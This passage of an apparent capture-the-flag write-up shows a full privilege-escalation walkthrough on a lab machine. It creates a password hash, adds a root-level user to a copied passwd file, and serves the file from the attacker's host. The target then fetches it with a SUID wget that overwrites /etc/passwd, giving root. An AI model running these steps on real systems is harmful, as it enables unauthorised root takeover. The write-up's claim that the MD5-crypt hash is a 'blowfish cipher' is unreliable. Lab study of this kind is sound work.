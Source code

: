 ```bash
```

The list above shows us binaries with root SUID, meaning that even when a low-privileged user executes them,
they do it with root privileges.

The first thing that catches my eye on that list is `wget`.  
`wget` can be used to download files over HTTP and save them locally.  
Usually, `wget` itself isn't too-dangerous. However, if we're allowed to use `wget` as root,
we can override **any** file on the system, including `/etc/passwd` file!

First, let's create a blowfish cipher password using `openssl`:
```bash
root@kali:~# openssl passwd -1 -salt 123 mypass
$1$123$vsQKzM4VDo/EkpS99uCM70
```

This creates a blowfish cipher password `mypass`, with *1* rotation, using the salt *123*.

Next, we copy our Kali's passwd file and add our new user & password to it:
```bash
root@kali:~# cp /etc/passwd .
root@kali:~# echo 'n0khodsia:$1$123$vsQKzM4VDo/EkpS99uCM70:0:0:root:/root:/bin/bash' >> passwd
```

This adds the user `n0khodsia` with our previously made blowfish cipher password and root privileges to our copied `passwd` file.
Now all we need to do is replace this file with the original one on the target machine, and login with our own credentials.  

Let's setup an HTTP server on our Kali:
```bash
root@kali:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now, on the target host let's download the custom `passwd` file and override it to `/etc/passwd`:
```bash
www-data@hackNos:/var/www/html/drupal$  wget http://192.168.1.104/passwd -O /etc/passwd
--2019-12-01 18:42:14--  http://192.168.1.104/passwd
Connecting to 192.168.1.104:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3230 (3.2K) [application/octet-stream]
Saving to: '/etc/passwd'

     0K ...                                                   100%  372M=0s

2019-12-01 18:42:14 (372 MB/s) - '/etc/passwd' saved [3230/3230]
```

Replacing `/etc/passwd` is possible because `wget` runs as ROOT.

We can now login to our root user `n0khodsia` with the password `mypass`:
```shell
www-data@hackNos:/var/www/html/drupal$ su n0khodsia
su n0khodsia
Password: mypass

root@hackNos:/var/www/html/drupal# id
id
uid=0(root) gid=0(root) groups=0(root)
```
